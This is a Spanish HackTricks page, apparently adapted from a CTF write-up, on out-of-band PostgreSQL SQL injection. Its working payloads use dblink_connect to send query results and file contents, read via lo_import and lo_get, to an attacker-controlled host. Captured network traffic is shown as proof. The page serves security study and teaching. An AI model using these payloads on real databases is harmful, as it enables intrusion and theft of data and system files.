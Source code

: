 # Exfiltración de datos con dblink/lo_import

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Este es un ejemplo de cómo exfiltrar datos cargando archivos en la base de datos con `lo_import` y exfiltrarlos utilizando `dblink_connect`.**

## Preparando el servidor de exfiltración/Inyección SQL Asíncrona

**Extraído de:** [**https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md**](https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md)

Debido a que `pg_sleep` tampoco causa retraso, podemos asumir con seguridad que la ejecución de la consulta ocurre en segundo plano o de manera asíncrona.

Normalmente, `dblink_connect` se puede usar para abrir una conexión persistente con una base de datos PostgreSQL remota (por ejemplo, `SELECT dblink_connect('host=HOST user=USER password=PASSWORD dbname=DBNAME')`). Dado que podemos controlar el parámetro de esta función, podemos realizar un SQL Server Side Request Forgery a nuestro propio host. Eso significa que podemos realizar una Inyección SQL Out-of-Band para exfiltrar datos de los resultados de la consulta SQL. Al menos, hay dos maneras de hacer esto:

1. Configurar un **servidor DNS** y luego activar la conexión a `[data].our.domain` para que podamos ver los datos en el registro o en los paquetes de red DNS.
2. Configurar un **servidor PostgreSQL público, monitorear los paquetes de red entrantes al puerto de PostgreSQL**, y luego activar una conexión a nuestro host con los datos exfiltrados como `user`/`dbname`. Por **defecto**, PostgreSQL no utiliza SSL para la comunicación, por lo que podemos ver `user`/`dbname` como un **texto plano** en la red.

El **segundo método es más fácil** porque no necesitamos ningún dominio. Solo necesitamos configurar un servidor con una IP pública, instalar PostgreSQL, configurar el servicio de PostgreSQL para que escuche en \*/0.0.0.0 y ejecutar un volcador de red (por ejemplo, tcpdump) para monitorear el tráfico al puerto de PostgreSQL (5432 por defecto).

Para configurar PostgreSQL para que **escuche al público**, establece `listen_addresses` en `postgresql.conf` a `*`.
```
listen_addresses = '*'
```
Para monitorear el tráfico entrante, ejecute `tcpdump` para monitorear el puerto 5432.
```
sudo tcpdump -nX -i eth0 port 5432
```
Para ver si obtenemos una conexión desde el objetivo, podemos intentar usar esta consulta:
```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=farisv password=postgres dbname=hellofromfb')) --
```
Si tiene éxito, obtenemos un fragmento de paquete de red con `user` y `dbname` legibles.
```
17:14:11.267060 IP [54.185.163.254.50968] > [REDACTED]: Flags [P.], seq 1:43, ack 1, win 229, options [nop,nop,TS val 970078525 ecr 958693110], length 42
0x0000:  4500 005e 9417 4000 2706 248c 36b9 a3fe  E..^..@.'.$.6...
0x0010:  9de6 2259 c718 2061 5889 142a 9f8a cb5d  .."Y...aX..*...]
0x0020:  8018 00e5 1701 0000 0101 080a 39d2 393d  ............9.9=
0x0030:  3924 7ef6 0000 002a 0003 0000 7573 6572  9$~....*....user
0x0040:  0066 6172 6973 7600 6461 7461 6261 7365  .farisv.database
0x0050:  0068 656c 6c6f 6672 6f6d 6662 0000       .hellofromfb.
```
Luego, podemos **continuar extrayendo la base de datos utilizando varias consultas de PostgreSQL**. Ten en cuenta que para cada resultado de consulta que contenga espacios en blanco, necesitamos convertir el resultado a **hex/base64** con la función `encode` o reemplazar el espacio en blanco por otro carácter con la función `replace` porque causará un error de ejecución durante el proceso de `dblink_connect`.

Obtener un **listado** de **esquemas**:
```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT string_agg(schema_name,':') FROM information_schema.schemata) || ' password=postgres dbname=postgres')) --
```

```
17:36:46.538178 IP 54.185.163.254.51018 > [REDACTED]: Flags [P.], seq 1:70, ack 1, win 229, options [nop,nop,TS val 971433789 ecr 960048322], length 69
0x0000:  4500 0079 ecd5 4000 2706 cbb2 36b9 a3fe  E..y..@.'...6...
0x0010:  9de6 2259 c74a 2061 1e74 4769 b404 803d  .."Y.J.a.tGi...=
0x0020:  8018 00e5 2710 0000 0101 080a 39e6 e73d  ....'.......9..=
0x0030:  3939 2cc2 0000 0045 0003 0000 7573 6572  99,....E....user
0x0040:  0070 7562 6c69 633a 696e 666f 726d 6174  .public:informat
0x0050:  696f 6e5f 7363 6865 6d61 3a70 675f 6361  ion_schema:pg_ca
0x0060:  7461 6c6f 6700 6461 7461 6261 7365 0070  talog.database.p
0x0070:  6f73 7467 7265 7300 00                   ostgres.
```
Obtén un **listado** de **tablas** en el esquema actual:
```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT string_agg(tablename, ':') FROM pg_catalog.pg_tables WHERE schemaname=current_schema()) || ' password=postgres dbname=postgres')) --
```

```
17:38:30.515438 IP 54.185.163.254.51026 > [REDACTED]: Flags [P.], seq 1:42, ack 1, win 229, options [nop,nop,TS val 971537775 ecr 960152304], length 41
0x0000:  4500 005d f371 4000 2706 c532 36b9 a3fe  E..].q@.'..26...
0x0010:  9de6 2259 c752 2061 8dd4 e226 24a3 a5c5  .."Y.R.a...&$...
0x0020:  8018 00e5 fe2b 0000 0101 080a 39e8 7d6f  .....+......9.}o
0x0030:  393a c2f0 0000 0029 0003 0000 7573 6572  9:.....)....user
0x0040:  0073 6561 7263 6865 7300 6461 7461 6261  .searches.databa
0x0050:  7365 0070 6f73 7467 7265 7300 00         se.postgres.
```
**Cuenta** las **filas** en la tabla `searches`.
```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT COUNT(*) FROM searches) || ' password=postgres dbname=postgres')) --
```

```
17:42:39.511643 IP 54.185.163.254.51034 > [REDACTED]: Flags [P.], seq 1:35, ack 1, win 229, options [nop,nop,TS val 971786760 ecr 960401280], length 34
0x0000:  4500 0056 7982 4000 2706 3f29 36b9 a3fe  E..Vy.@.'.?)6...
0x0010:  9de6 2259 c75a 2061 5ec0 7df0 8611 357d  .."Y.Z.a^.}...5}
0x0020:  8018 00e5 f855 0000 0101 080a 39ec 4a08  .....U......9.J.
0x0030:  393e 8f80 0000 0022 0003 0000 7573 6572  9>....."....user
0x0040:  0030 0064 6174 6162 6173 6500 706f 7374  .0.database.post
0x0050:  6772 6573 0000                           gres.
```
Parece que solo hay una tabla vacía en el esquema actual y la bandera no está en la base de datos. Realmente podríamos necesitar exfiltrar datos de `/var/lib/postgresql/data/secret`. Desafortunadamente, si intentamos usar `pg_read_file` o `pg_read_binary_file` para leer el archivo, no obtendremos una conexión entrante, por lo que el usuario actual puede no tener permiso para usar estas funciones.

#### Más información sobre SQLInjection asincrónica con postdresql

* [https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md](https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md)

## **Exfiltración del contenido de objetos grandes**

Es posible leer archivos usando objetos grandes ([https://www.postgresql.org/docs/11/lo-funcs.html](https://www.postgresql.org/docs/11/lo-funcs.html)). Podemos usar `lo_import` para cargar el contenido del archivo en el catálogo `pg_largeobject`. Si la consulta es exitosa, obtendremos el `oid` del objeto.
```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT lo_import('/var/lib/postgresql/data/secret')) || ' password=postgres dbname=postgres')) --
```

```
17:54:51.963925 IP 54.185.163.254.51046 > [REDACTED]: Flags [P.], seq 1:39, ack 1, win 229, options [nop,nop,TS val 972519214 ecr 961133706], length 38
0x0000:  4500 005a 071f 4000 2706 b188 36b9 a3fe  E..Z..@.'...6...
0x0010:  9de6 2259 c766 2061 26fb c8a7 bbb3 fe01  .."Y.f.a&.......
0x0020:  8018 00e5 2272 0000 0101 080a 39f7 772e  ...."r......9.w.
0x0030:  3949 bc8a 0000 0026 0003 0000 7573 6572  9I.....&....user
0x0040:  0032 3436 3638 0064 6174 6162 6173 6500  .24668.database.
0x0050:  706f 7374 6772 6573 0000                 postgres..
```
Obtuvimos 24668 como `oid`, lo que significa que podemos usar la función `lo_import`. Desafortunadamente, no obtendremos ningún resultado si intentamos obtener el contenido del objeto grande usando `lo_get(24668)` o acceder directamente al catálogo `pg_largeobject`. **Parece que el usuario actual no tiene permiso para leer el contenido de los nuevos objetos.**

Después de leer la documentación de objetos grandes en PostgreSQL, podemos descubrir que **los objetos grandes pueden tener ACL** (Lista de Control de Acceso). Eso significa que, si hay un objeto antiguo con un ACL que permite al usuario actual leerlo, entonces podemos exfiltrar el contenido de ese objeto.

Podemos obtener una lista de `oid` de objetos grandes disponibles extrayendo de `pg_largeobject_metadata`.
```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT string_agg(cast(l.oid as text), ':') FROM pg_largeobject_metadata l) || ' password=postgres dbname=postgres')) --
```

```
18:06:57.172285 IP 54.185.163.254.51052 > [REDACTED]: Flags [.], seq 1:2897, ack 1, win 229, options [nop,nop,TS val 973244413 ecr 961858878], length 2896
0x0000:  4500 0b84 7adf 4000 2606 339e 36b9 a3fe  E...z.@.&.3.6...
0x0010:  9de6 2259 c76c 2061 8d76 e934 10c9 3972  .."Y.l.a.v.4..9r
0x0020:  8010 00e5 a66d 0000 0101 080a 3a02 87fd  .....m......:...
0x0030:  3954 cd3e 0000 1c94 0003 0000 7573 6572  9T.>........user
0x0040:  0031 3635 3731 3a31 3634 3339 3a31 3635  .16571:16439:165
0x0050:  3732 3a31 3634 3431 3a31 3634 3432 3a31  72:16441:16442:1
0x0060:  3733 3732 3a31 3634 3434 3a31 3634 3435  7372:16444:16445
0x0070:  3a31 3831 3534 3a31 3733 3830 3a31 3737  :18154:17380:177
0x0080:  3038 3a31 3635 3737 3a31 3634 3530 3a31  08:16577:16450:1
0x0090:  3634 3531 3a31 3634 3532 3a31 3634 3533  6451:16452:16453

.....
.....
.....
```
Obtuvimos un montón de `oid`s. Podemos intentar usar `lo_get` para cargar el contenido del objeto. Por ejemplo, `lo_get(16439)` cargará el contenido de `/etc/passwd`. Debido a que el resultado de `lo_gets` es `bytea`, necesitamos convertirlo a `UTF8` para que pueda ser añadido en la consulta.

Podemos intentar cargar algunos objetos con el `oid` más bajo para averiguar si el archivo de la bandera ha sido cargado anteriormente. El objeto del archivo de la bandera sí existe con `oid` 16444. No hay espacios en blanco en la bandera, así que podemos mostrarla tal cual.

Para cargar la bandera:
```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT convert_from(lo_get(16444), 'UTF8')) || ' password=postgres dbname=p
```
#### Más información sobre oid:

* [https://balsn.tw/ctf\_writeup/20190603-facebookctf/#hr\_admin\_module](https://balsn.tw/ctf\_writeup/20190603-facebookctf/#hr\_admin\_module)
* [https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md](https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md)

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
